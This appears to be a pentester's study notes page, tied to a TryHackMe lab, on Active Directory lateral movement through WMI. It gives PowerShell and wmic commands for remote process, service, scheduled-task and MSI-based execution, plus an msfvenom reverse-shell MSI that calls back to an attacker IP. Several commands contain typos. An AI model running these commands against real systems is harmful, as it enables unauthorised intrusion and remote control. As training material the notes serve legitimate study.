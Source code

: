 # AD Lateral Movement - WMI

Windows Management Instrumentation (WMI) is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices. Not to be confused with `wmic` see [[WMI-Commands]] for more uses of WMI's Command Line utility. Regardless WMI allows administrators to perform standard management tasks, therefore a utility to lateral movement.


## Connecting to WMI From Powershell

-   **DCOM:** RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
-   **Wsman:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

Create a PSCredential object 
```powershell
$username = 'Administrator';
$password = 'admin';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```
Store sessions with `New-CimSessionOption` 
```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName <computer-name> -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

## Remote Process Creation Using WMI

**Requirements**
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
-   **Group Memberships**: 
	- Administrators

Remotely spawn a process from Powershell by sending a WMI request to the Win32_process class to spawn the process under the session we previously created 
```powershell
$Command = "powershell.exe ..." # Enter a command here
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -arguments @{ CommandLine = $Command }
```
Output of command and processs create will both be silent. Legacy system can use `wmic.exe`:
```powershell
wmic.exe /user:Administrator /password:admin /node:<target computer name> process call create "cmd.exe /c <whatever tool you have on the target to connect back!>"
```

## Remote Service Creation Using WMI

**Requirements**
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
-   **Group Memberships**: 
	- Administrators

Create a sevice with Powershell; Importantly `PathName` is your payload and the `ServiceType` completed below and is a `Win32OwnProcess` Starting a service in a new Process. The `Name` and `DisplayName` are just the naming of this SErvices
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguements @{
Name = "";
DisplayName = "";
PathName = ""; 
ServiceType = [byte]::Parse("16");
StartMode = "Manual"
}
```
Use the service name to start like so:
```powershell
$Service = Get-CimInstance -CimSession $SEssion -ClassName Win32_SErvice -filter "Name LIKE '<service name>'" 

Invoke-CimMethod -InputObject $Service -MethodName StartService
# Stop and delte with the following:
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

## Remote Scheduled Task Creation Using WMI

**Requirements**
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
-   **Group Memberships**: 
	- Administrators

Create and execute a scheduled task:
```powershell
# Payload must split into Command and Args
$Command = ".exe"
$Arg = "arguments go here"
# Create the Scheduled Task
$Action = New-ScheduledTaskAction -CimSessions $Session -Execute $Command -Argument $Args
# Register it
Register-ScheduledTask -CimSession $Session -Action -$Action -User "NT AUTHORITY\SYSTEM" -TaskName "Taskname"
# Then Start
Start-ScheduleTask -CimSession $Session -TaskName "Taskname"
# Unregister to delete
Register-ScheduledTask -CimSession $Session -TaskName "Taskname"
```

## Installing MSI Packages Through WMI

**Requirements**
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
-   **Group Memberships**: 
	- Administrators

MSI is file fpormat for installers, therefore copying a MSI package to a target system and using WMI to install it. With [[MSFvenom-Payloads]]:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attack_ip LPORT=$port -f msi > badinstall.msi
```

Inoke the `Win32_Product` class through WMI:
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\$installer.msi"; Options = ""; AllUsers = $false}
```
Legacy system can use [[WMI-Commands]]:
```powershell
wmic /node:target_ip /user:$domain\$user product call install PackageLocation=C:\Window\$installer.msi
```


## References

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)